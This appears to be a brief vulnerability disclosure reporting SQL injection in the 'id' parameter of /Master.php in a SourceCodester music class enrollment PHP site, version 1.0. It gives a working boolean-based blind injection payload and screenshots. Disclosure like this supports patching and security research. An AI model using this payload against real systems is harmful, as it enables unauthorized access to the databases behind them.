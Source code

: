 # SQL injection vulnerability exists in the music course registration system

## Vulnerability author:liuyuanyuan

supplier:
https://www.sourcecodester.com/php/15362/music-class-enrollment-site-phpoop-free-source-code.html

edition: 
1.0

/Master.php

The Id parameter has SQL injection. Procedure

Payload: id=2' RLIKE (SELECT (CASE WHEN (8312=8312) THEN 2 ELSE 0x28 END))-- ZqkI

![图片](https://github.com/user-attachments/assets/7070816d-6a3d-4fc4-bc3b-94d2d7851a95)

![图片](https://github.com/user-attachments/assets/a218ebe5-204f-4e7f-baac-b50aa1953907)

